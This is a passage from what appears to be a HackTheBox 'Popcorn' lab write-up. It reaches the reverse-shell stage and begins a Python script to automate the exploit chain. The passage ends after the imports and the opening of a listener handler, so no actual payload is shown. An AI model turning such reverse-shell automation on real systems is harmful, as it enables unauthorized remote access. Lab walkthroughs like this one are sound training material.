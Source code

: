 ## Reverse Shell

And now a reverse shell!

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-15-HackTheBox-Popcorn/2021-11-15-HackTheBox-Popcorn%2008:55:25.png)

Ok, now let's automate all the exploit chain

# Auto Reverse Shell

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-15-HackTheBox-Popcorn/2021-11-15-HackTheBox-Popcorn%2002:57:45.png)

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# HackTheBox - Popcorn - Auto Reverse Shell

import argparse
import requests
import sys
import base64
import os
import re
import base64
import urllib.parse
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
```